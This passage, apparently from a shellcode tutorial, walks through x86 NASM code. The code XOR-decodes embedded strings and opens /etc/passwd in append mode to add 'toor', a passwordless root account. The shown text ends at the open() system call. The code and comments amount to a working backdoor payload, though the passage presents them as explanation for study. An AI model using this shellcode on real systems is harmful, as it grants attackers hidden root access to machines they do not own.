 ```nasm
DecodeStringBytes:
    
    ; XOR key: uccq
    xor DWORD [edi], 0x75636371

    ; now that the 4 bytes are decoded, step to the next 4 bytes
    add edi, 0x4

    ; repeat 11 times, if ECX == 0 don't loop
    loop DecodeStringBytes
```

The goal of the code above is to decode the encoded bytes, by XOR-ing one DWORD at a time with the key `0x75636371`. It doesn't hold any special meaning, it's just 4 random bytes that don't generate any NULL bytes during the XOR operations.

The `loop` instruction, used in conjunction with `mov cl, 11` from above, allow the shellcode to repeat the routine `DecodeStringBytes` 11 times, in order to decode the `44 encoded bytes` referenced by the variable `EncodedStringBytes`.

Follows the next routine, `OpenFile`:

```nasm
OpenFile:

    ; restore EDI to the original value
    ;   (pointing to the start of the decoded bytes)
    mov edi, esi

    ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash\0x0a' into ebx
    mov ebx, edi
    add ebx, 0xc

    ; save the same pointer into ESI too
    push ebx
    pop esi

    ; store the pointer to '/etc/passwd' into EBX
    push edi
    pop ebx

    ; store 0x5 into EAX (syscall: open())
    mov al,0x6
    dec eax

    ; store the WORD 0x1a4 into EDX
    mov dl, 0x69
    rol edx, 2

    ; store the WORD 0x442 into ECX
    mov cx,0x443
    dec ecx

    ; call syscall 0x5: open()
    int 0x80
```
